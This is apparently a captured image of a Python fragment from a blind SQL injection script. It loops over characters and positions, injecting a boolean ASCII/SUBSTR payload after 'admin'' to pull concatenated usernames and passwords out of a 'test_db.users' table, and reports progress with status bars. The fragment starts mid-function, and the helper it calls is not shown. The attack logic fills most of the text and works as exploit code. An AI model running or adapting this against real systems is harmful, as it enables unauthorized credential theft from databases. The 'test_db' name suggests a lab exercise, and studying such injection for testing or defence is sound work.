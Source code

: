 ```python
                #sqli = f"""admin' AND ascii((SUBSTR((SELECT concat(username,0x3a,password) FROM test_db.users LIMIT {j},1),{i},1)))='{character}'-- -"""
                p2.status(sqli)
                if check(sqli):
                    #output += chr(character) # ASCII (for all_ascii)
                    output += character # LETTERS (for all_letters)
                    found_letter = 1
                    p1.status(f"{output}")
                    finish = False
                    break
            if found_letter == 0 or finish == True:
                break
        if finish == True:
            p1.failure()
        else:
            p1.success(output)

if __name__ == "__main__":
    query()
```
